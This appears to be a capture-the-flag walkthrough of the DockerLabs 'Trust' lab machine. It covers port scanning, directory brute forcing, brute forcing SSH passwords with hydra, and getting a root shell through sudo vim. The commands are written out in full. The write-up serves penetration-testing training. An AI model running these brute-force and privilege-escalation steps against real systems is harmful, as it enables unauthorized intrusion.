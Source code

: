 # Trust

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh trust.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 trust" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 trust
PING trust (172.17.0.2) 56(84) bytes of data.
64 bytes from trust (172.17.0.2): icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from trust (172.17.0.2): icmp_seq=2 ttl=64 time=0.077 ms
64 bytes from trust (172.17.0.2): icmp_seq=3 ttl=64 time=0.048 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- trust
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 trust -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://trust
```

<figure><img src="../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

We only find a useless 403 status code, so we try inserting web extensions (html, xml and php) with the -x flag:

```
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,xml,php
```

<figure><img src="../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

and finally we obtain two status code 200, the index.html is the homepage (that we just know), therefore we go to the secret.php

<figure><img src="../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

We find as info a potential username, remembering that port 22 (SSH) is open, not knowing the password we could try a brute force attack with hydra

### 2.3 Brute force ssh credentials

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt trust ssh
```

<figure><img src="../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh mario@trust`

<figure><img src="../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/vim, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/vim/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src="../.gitbook/assets/image (248).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo vim -c ':!/bin/sh'`

<div align="left">

<figure><img src="../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

</div>
